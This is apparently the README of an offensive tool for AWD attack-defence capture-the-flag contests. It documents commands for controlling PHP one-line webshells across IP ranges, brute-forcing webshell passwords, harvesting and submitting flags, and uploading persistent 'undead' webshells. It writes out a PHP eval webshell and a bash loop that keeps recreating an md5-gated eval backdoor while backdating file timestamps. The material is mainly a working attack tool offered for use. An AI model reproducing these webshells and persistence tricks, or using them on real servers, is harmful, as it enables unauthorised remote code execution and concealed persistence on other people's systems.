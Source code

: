     AWD Predator Framework v2.0                   

              --code by AresX       
			  

* 在AWD攻防赛中通过给定的webshell批量获取提交flag

* 为不会现场挖洞写脚本的菜鸡准备

* 用py去实现菜刀是一件代码量很大的事情，懒得做也不会做(以后可能会做)，所以需要手动设置一句话的功能函数和方法

* 针对简单的单参数传递的一句话和特定的加密一句话


# webshell

**添加已知的webshell,仅支持php，GET和POST方法使用eval和exec函数的一句话木马**

### 添加webshell

命令`add`

使用方法: `add [shell path] [pwd] [type(eval/exec)] [method(get/post)]`

如一句话为`<?php @eval($_POST[‘cmd’]);?>` 路径为`x.x.x.x:8001://index/cmd.php`

一句话密码为`cmd` 功能函数为`eval` 方法为`POST`

example:`add x.x.x.x:8001://index/cmd.php cmd eval post`

命令执行后webshell的路径和密码会以字典的形式储存

**处理了使用md5加密的eval函数一句话,**

get方法在添加时,可添加带md5加密的密码的路径

如:`add :8003/x.php?pass=fuckyou x eval get` 

post方法请在`flag.py`中修改`for j in POST_eval_shells_path_pwd:`循环中的`eval_POST_data['pass']`为自己的密码，密码将被自动传递

post添加方法同`add x.x.x.x:8001://index/cmd.php cmd eval post`

### 显示添加的webshell

命令`show`

将显示所有添加的webshell路径和密码

### 保存,读取,清空webshell
*保存已经添加的webshell路径和密码，方便临场修改代码*

保存:`save`
读取:`load`
清空:`clear` //清空不会清空已经储存的webshell,除非在清空后执行保存命令

### Webshell爆破

*采用一种提速千倍的爆破方法*

命令: `crack http://xxx.php`

字典储存在`auxi/pwd.txt`中，可自行完善字典


# iplist

**根据输入生成指定段的ip列表**

### 生成列表

命令: `ip x.x.a-b.x`

可设定acb任意段的ip列表,使用'-'连接左右区间

### 添加指定ip

命令: `ip x.x.x.x`

执行命令后,`x.x.x.x`将被添加到ip列表中,会自动去除重复项和进行排序

### 查看已经生成的列表

命令: `showip`

显示生成的ip列表

### 清空ip列表

命令: `clearip`

### 去掉指定ip

命令: `removeip x.x.x.x`

# flag

**通过iplist和webshell获取flag，将获取到的flag提交到指定服务器**

### 获取flag
*遍历iplist中所有的地址尝试通过所有已经添加的webshell获取flag,在执行此命令前需设定iplist，否则报错*

命令:`getflag [command]`

example:`getflag curl www.baidu.com/flag.txt`

获取命令如果不需要修改只需完整输入一次，之后可直接执行`getflag`

### 查看flag

命令: `showflag`



### 提交flag

**攻防赛环境中获取到的flag通常不是标准格式,`flag.py`中的`submit_flag`函数中已经使用了`re.compile(r'flag{\w+?}')`尝试匹配标准flag格式**
**如果出现问题,请自行在`flag.py`文件的`submit_flag`函数中使用正则匹配获得标准flag进行提交**

*提交flag 需设定提交flag的链接，以及cookie和data,使用"?"替换flag在data中所在的参数*

命令: `submit [url] [cookie] [data](use '?' replace the flag )`

example: `submit http:xxx.xxx.xx/xx/ JSESSIONID=A6F8;route=6cf03 pid=-1&pidName=&flag=?`
**去掉cookie中的空格,data中flag所在位置需用?代替！**

提交命令如果不需要修改只需完整输入一次，之后可直接执行`submit`

submit完成之后会有清空flag的选项(y/n)

### 清空flag

命令: `clearflag`

# 上传

## 文件木马上传

命令: `upload <file>(default='auxi/shell.php')`

默认上传文件为`auxi/shell.php` 如需使用修改默认文件,默认文件为加密不死马

如需上传其他文件,将文件储存在`auxi/`目录下

执行`upload xxx`即可

如上传默认文件,直接执行`upload`

如果文件上传成功，会自动访问一次上传的文件，激活不死马

## 命令木马上传

命令: `cupload`

连接一句话执行bash命令生成不死马`.index1.php`

bash命令为:`system('while true;do echo \'<?php if(md5($_POST["pass"])=="3a50065e1709acc47ba0c9238294364f"){@eval($_POST[a]);} ?>\' >fuck.php;touch -m -d "2017-11-12 10:10:10" .index1.php;sleep 1;done;');`

如果要修改请修改`command.py`中的`data[z0]`

---


### 目录结构
```
###########
├── Readme.md               //帮助文档 
├── console.py              //启动
├── core                    // 核心模块
│   ├── shells.py           //写入，读取，保存webshell
│   ├── flag.py             // 获取，提交flag
│   ├── iplist.py           // 生成ip列表   
│—— auxi                    //辅助模块
|   |—— upload.py           //webshell上传功能
|   |—— shell.php           //默认上传文件
|   |—— webshell.txt        //一句话储存路径  
|   |—— command.py          //上传bash不死马
|—— data                    //webshell数据储存

```
